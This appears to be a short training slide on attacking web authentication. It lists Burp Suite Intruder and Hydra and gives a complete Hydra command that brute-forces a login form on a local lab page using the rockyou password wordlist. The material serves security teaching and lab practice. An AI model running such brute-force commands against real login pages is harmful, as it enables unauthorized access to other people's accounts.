

Authentication
Burpsuite
	Intruder
Hydra
hydra -l jeremy -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form \
"/labs/a0x01.php:username=^USER^&password=^PASS^:F=Your username or password was incorrect" \
-t 16 -o hydra-found.txt
Labs